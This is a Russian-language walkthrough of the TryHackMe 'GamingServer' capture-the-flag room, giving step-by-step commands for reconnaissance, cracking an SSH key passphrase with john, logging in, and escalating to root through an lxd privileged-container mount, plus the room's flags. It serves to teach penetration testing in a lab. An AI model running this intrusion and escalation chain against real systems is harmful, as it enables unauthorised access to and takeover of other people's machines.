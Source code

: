 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [GamingServer](https://tryhackme.com/r/room/gamingserver) 

Всего 1 заданиe:
## Задание 1
Можете ли вы получить доступ к этому игровому серверу, созданному любителями без опыта веб-разработки, и 
воспользоваться преимуществами системы развертывания? 

### Ответьте на вопросы ниже
Что такое флаг пользователя?

```commandline
nmap -sC -sV <IP>
```

Итак, у нас есть сервер ssh, работающий на порту 22, и веб-сервер Apache, работающий на порту 80. Имя веб-сервера — 
«House of danak». Операционная система — Ubuntu.
Просматривая исходный код веб-страницы, мы находим комментарий, который дает нам возможное имя пользователя «john».
Перейдя в раздел « DRAAGAN LORE », мы увидим кнопку «Upload», на этот же каталог указывает файл /robots.txt.

`http://<IP>/uploads/`
Затем я запустил Gobuster для перебора всех доступных каталогов. При доступе к /secret. Там есть файл secretKey. При 
просмотре файла это зашифрованный ключ rsa, возьмем его и расшифруем при помощи уже найденного файла dict.lst
```commandline
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
ssh2john secretKey > hash.txt
john --wordlist=dict.lst hash.txt 
# letmein 

ssh -i secretKey john@<IP>
# letmein
cat user.txt
```
 ```commandline
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
Что такое корневой флаг?
```commandline
id
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine      
cd lxd-alpine-builder
./build-alpine
ls
```
Далее нам нужно скопировать сжатый файл на целевую машину, а затем импортировать образ с помощью lxc
```commandline
lxc image import ./alpine-* --alias myimage
lxc image list
lxc init myimage image -c security.privileged=true
lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
lxc exec image /bin/sh
id
cd /mnt/root/root/
cat root.txt
```
```commandline
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)